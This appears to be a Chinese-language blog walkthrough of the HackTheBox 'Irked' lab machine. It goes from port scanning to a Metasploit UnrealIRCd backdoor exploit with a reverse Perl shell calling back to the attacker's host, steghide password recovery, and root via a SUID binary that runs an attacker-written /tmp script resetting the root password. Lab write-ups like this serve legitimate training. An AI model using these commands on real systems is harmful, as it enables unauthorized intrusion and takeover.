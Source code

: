 ```yaml
---
title: HackTheBox-Irked
tags:
  - 靶机渗透
categories:
  - 技术水文
copyright: true
abbrlink: ae29f7a1
date: 2019-01-31 20:50:39
---
```


![](https://ae01.alicdn.com/kf/HTB14mSfaCWD3KVjSZSgq6ACxVXaU.jpg)
<!--more-->
<div class="yinyue" style="text-align:center"><iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=428642586&auto=1&height=66"></iframe></div>

## 信息收集 ##

### 扫描目标机器开放的端口 ###

```bash
masscan -p1-65535 10.10.10.117 --rate=1000 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr ​'\n'​ ​','​ | sed 's/,$//')

nmap -Pn -A -sV -sC -p$ports 10.10.10.117
```

![](https://ae01.alicdn.com/kf/HTB17_edaEKF3KVjSZFE760ExFXaM.png)

目标机上运行着http服务，使用`gobuster`爆了下目录，没有发现什么。

访问下web站点，似乎发现了些什么，`IRC is almost working!`, 在回看nmap扫描输出信息`6697`和`8067`端口上就运行着`IRC`

![](https://ae01.alicdn.com/kf/HTB1u.OdaEuF3KVjSZK9762VtXXat.png)

### 使用HexChat连接到目标机 ###

nmap没探测出关于IRC更多的信息，所以使用hexchat连接目标，看看是否能找到其他信息。例如版本号之类的。

由于kali上没有 `HexChat` 所以先安装该工具

```bash
apt-get install hexchat -y
```

启动 Hexchat 添加新连接

![](https://ae01.alicdn.com/kf/HTB14uykaBCw3KVjSZR0762cUpXaq.png)

连接成功，版本是`Unreal 3.2.1`, 搜索一下该版本有什么漏洞

![](https://ae01.alicdn.com/kf/HTB1enidavWG3KVjSZFP760aiXXaz.png)

搜索到以下几个漏洞

![](https://ae01.alicdn.com/kf/HTB1__Omaq5s3KVjSZFN763D3FXal.png)

![](https://ae01.alicdn.com/kf/HTB1QYKdaxiH3KVjSZPf760BiVXaC.png)

## 漏洞利用 ##

```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set payload cmd/unix/reverse_perl
set RHOST 10.10.10.117  #目标
set RPORT 6697          #目标端口
set LHOST 10.10.13.129  #kali
run
```

成功得到shell会话

![](https://ae01.alicdn.com/kf/HTB1JmWjaBGw3KVjSZFw762Q2FXaL.png)

为了方便，这里使用python弹个交互式的shell

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

**寻找flag（user.txt）**

经过查找，发现 `user.txt` 在另外一个用户 `Documents`目录下，但现在的用户无法cat user.txt。后面检查了当前用户执行过的命令，发曾经cat过和user.txt同目录下的`.backup`文件。当我cat该文件时，提示这个是备份密码。尝试ssh却发现密码错误无法登录。

![](https://ae01.alicdn.com/kf/HTB1bzufaBWD3KVjSZKP761p7FXaj.png)

后面在官方论坛该靶机板块下找到了些提示：`Stego工具应与密码一起使用，首先找到Stego秘密吗，然后使用流行的Stego工具` (机器翻译的勉强看吧)。

按照提示，猜测应该是用类似 `MP3Stego` 之类的工具输入密码解密从而得到新的文件。后面在网上搜索到了kali上有个`steghide`的工具可以解密

安装steghide

```bash
apt-get install steghide
```

在解密前，先把`web`站点上的那张黄脸图片下载到本地然后使用以下命令并输入密码解密，密码为`.backup`里面`UP`的开头的字符串，然后得到个`pass.txt`，文件内容就是另一个用户的ssh登录密码

```bash
steghide extract -sf irked.jpg
```

![](https://ae01.alicdn.com/kf/HTB1lsqfaAWE3KVjSZSy760ocXXaR.png)

**提权cat roo.txt**

查找可利用带有SUID的文件、命令

```bash
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;
```

发现个可疑的`viewuser`命令，执行该命令报错提示找不到`/tmp/listusers`，嗯，这里利用一波，在/tmp下创建一个名为`listusers`的sh脚本。脚本里面可以写入增加个特权用户、修改root密码或者把当前用户加入到管理员组之类的命令

![](https://ae01.alicdn.com/kf/HTB1OH5daxiH3KVjSZPf760BiVXaU.png)

这里我写入修改root密码，sh脚本命令如下：

```bash
#!/bin/bash
echo root:Aa@1234567890 | /usr/sbin/chpasswd
```

修改权限为777，然后执行

```bash
chmod 777 listusers
/usr/bin/viewuser`
```

![](https://ae01.alicdn.com/kf/HTB1bPefaBWD3KVjSZKP761p7FXaJ.png)
